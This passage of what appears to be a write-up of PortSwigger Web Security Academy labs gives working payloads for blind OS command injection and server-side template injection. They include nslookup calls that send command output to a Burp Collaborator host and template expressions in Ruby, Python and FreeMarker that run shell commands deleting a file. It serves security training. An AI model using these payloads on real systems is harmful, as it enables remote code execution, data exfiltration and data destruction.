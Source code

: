### 3. Blind OS command injection with out-of-band interaction
```
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```

### 4. Blind OS command injection with out-of-band data exfiltration
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```


# Server-side template injection
## Approach  
One of my favorites. SSTI is a direct road to RCE. Complexity can only arise when searching for the language in which the code was written, for this I used a small tip to narrow the range of technologies: at the exploration stage, we iterate over template expressions ```({{7*7}}, ${7*7},<% = 7*7 %>, ${{7*7}}, #{7*7}, *{7*7})``` and if, for example, we got the expression ```<%= 7*7 %>``` go to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) and look for all technologies that use this expression. The method, of course, has a big crack in the form of the most common expression ```{{7*7}}```, here only God can tell you what kind of technology it is. Again, do not hesitate to scan with Burp, maybe it can tell you what technology is used.  

Arises at View Details with reflected phrase **Unfortunately this product is out of stock**  
![aa](https://user-images.githubusercontent.com/58632878/224709631-b1b0555f-5ee6-44a9-a98a-0244ebead621.png)  

## Labs
### 1. Basic server-side template injection
>Ruby 
```
<%= system("rm+morale.txt") %>
```

### 2. Basic server-side template injection (code context)
```
blog-post-author-display=user.first_name}}{%+import+os+%}{{os.system('rm+morale.txt')}}
```

### 3. Server-side template injection using documentation
>Java Freemaker
```
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}
```

### 4. Server-side template injection in an unknown language with a documented exploit
>NodeJS Handlebars exploit
>https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs
